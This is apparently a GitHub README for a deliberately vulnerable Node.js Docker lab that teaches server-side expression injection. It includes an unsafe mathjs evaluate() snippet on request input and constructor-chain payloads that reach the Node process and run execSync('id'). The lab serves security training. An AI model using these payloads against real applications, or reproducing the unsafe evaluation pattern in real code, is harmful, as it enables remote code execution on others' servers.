 # 🧠 Server-Side Expression Injection (SSEI) Vulnerable Lab

Welcome to the **SSEI-Lab**, a purposely vulnerable web app built to help security professionals, CTF players, and students learn how Server-Side Expression Injection vulnerabilities work — including how they can lead to Remote Code Execution (RCE).

## 🧠 Purpose

🚀 This repo provides:

- A wordlist of payloads to detect and exploit SSEI.
- A vulnerable Docker lab for hands-on practice.

## What is SSEI?

Server-Side Expression Injection (SSEI) is a vulnerability where user input is interpreted as a code expression on the server side. This often occurs in applications using math evaluators, template engines, or unsafe `eval()` functions.

## Example vulnerable code

```js
const math = require('mathjs');
const userInput = req.body.equation;
const result = math.evaluate(userInput);
res.send("Math result: " + result);
```

## Payload Examples

- `1+1` → 2
- `[].constructor.constructor("return process")()` → access Node.js process object
- `[].constructor.constructor("return process.mainModule.require('child_process').execSync('id').toString()")()` → RCE

## Tools

Use with tools like:

- Burp Suite Intruder
- curl/Postman
- ffuf, wfuzz

## Running the Docker Lab

This Docker-based lab contains a **Node.js web application** that evaluates user-supplied mathematical expressions — similar to many real-world calculators — but with a vulnerability: **user input is evaluated directly**.

### Vulnerability

This lab demonstrates **Server-Side Expression Injection (SSEI)**, which can be exploited to execute arbitrary JavaScript and eventually run **OS-level commands**.

---

## 🧰 Technologies

- Node.js 18
- Express.js
- Minimal frontend (HTML + jQuery)
- Docker

---

## 🐳 How to Use

### Step 1: Build the Docker Image

```bash
git clone https://github.com/YOUR_USERNAME/ssei-lab.git
cd ssei-lab
sudo docker build -t ssei-lab .
```
#### On Kali Use the following

```bash
sudo apt update
sudo apt install -y docker.io
sudo systemctl start docker
git clone https://github.com/YOUR_USERNAME/ssei-lab.git
cd ssei-lab
sudo docker build -t ssei-lab .
```

### Step 2: Run the Docker

```bash
sudo docker run -p 3000:3000 ssei-lab
```

Then visit http://localhost:3000

### 🎯 Example Exploit
Once running, enter this payload into the input field:
```js
[]["constructor"]["constructor"]("return process")()
```

Or for command execution:
```js
[]["constructor"]["constructor"]("return global.process.mainModule.require('child_process').execSync('id').toString()")()
```

### 🔐 Disclaimer

This is for educational purposes only. Do NOT deploy this lab on a public server or use it for anything unethical.
